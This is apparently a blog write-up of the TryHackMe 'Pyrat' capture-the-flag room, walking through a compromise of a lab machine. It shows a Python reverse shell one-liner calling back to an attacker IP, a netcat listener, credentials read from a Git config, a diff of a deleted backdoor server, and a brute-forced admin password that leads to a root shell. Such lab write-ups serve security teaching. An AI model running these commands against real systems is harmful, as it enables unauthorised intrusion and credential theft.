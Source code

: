 ```yaml
---
title: Pyrat
description: 'RCE through an open port which executes Python code, finding credentials in a Git config file and brute forcing a Python service'
pubDate: 2024-12-17
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377487436'
---
```


```bash
telnet 10.10.120.110 8000
...[snip]...
?
invalid syntax (<string>, line 1)
python -c "print(7*7)"
invalid syntax (<string>, line 1)
print(7*7)
49
```

We get code execution by just supplying a python command.
Pasting in a python reverse shell we get a callback on our listener:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.28.13",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.28.13] from (UNKNOWN) [10.10.120.110] 41444
bash: /root/.bashrc: Permission denied
www-data@Pyrat:~$
```

## USER

Looking around on the file system we find a `.git` directory.

```bash
cd /opt/dev/
ls -al
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git

git status
fatal: detected dubious ownership in repository at '/opt/dev'
To add an exception for this directory, call:

        git config --global --add safe.directory /opt/dev
```

We can't add it to our global config:

```bash
git config --global --add safe.directory /opt/dev
warning: unable to access '/root/.gitconfig': Permission denied
warning: unable to access '/root/.config/git/config': Permission denied
error: could not lock config file /root/.gitconfig: Permission denied
```

Digging through the files in the `.git` directory we see there is a username and password in the config:

```bash
www-data@Pyrat:/opt/dev/.git$ cat config
...[snip]...
        username = think
        password = _TH1NKINGPirate$_
```

Lets try to switch to this user:

```bash
su think
Password: # <-- _TH1NKINGPirate$_
think@Pyrat:/opt/dev/.git$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

We can use the same credentials to SSH in to the machine.

## ROOT

With the `think` user we can interact with the git info in the `/opt/dev` directory.

```bash
cd /opt/dev/
git status
...[snip]...
deleted:    pyrat.py.old
...[snip]...
```

Lets see what actually changed:

```bash
git diff
diff --git a/pyrat.py.old b/pyrat.py.old
deleted file mode 100644
index ce425cf..0000000
--- a/pyrat.py.old
+++ /dev/null
@@ -1,27 +0,0 @@
-...............................................
-
-def switch_case(client_socket, data):
-    if data == 'some_endpoint':
-        get_this_enpoint(client_socket)
-    else:
-        # Check socket is admin and downgrade if is not aprooved
-        uid = os.getuid()
-        if (uid == 0):
-            change_uid()
-
-        if data == 'shell':
-            shell(client_socket)
-        else:
-            exec_python(client_socket, data)
-
-def shell(client_socket):
-    try:
-        import pty
-        os.dup2(client_socket.fileno(), 0)
-        os.dup2(client_socket.fileno(), 1)
-        os.dup2(client_socket.fileno(), 2)
-        pty.spawn("/bin/sh")
-    except Exception as e:
-        send_data(client_socket, e
-
-...............................................
```

We have to brute force the password, we know the username is `admin`.

Borrowing `brute.py` (https://loghmariala.github.io/posts/Pyrat/) to brute force the password:

```bash
python brute.py
Trying password: 123456
Password 123456 is incorrect.
...[snip]...
Trying password: abc123
Success! Password is: abc123
```

Now we can get a root shell on the telnet server:

```bash
telnet 10.10.120.110 8000
Trying 10.10.120.110...
Connected to 10.10.120.110.
Escape character is '^]'.
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
# id
id

uid=0(root) gid=0(root) groups=0(root)
```
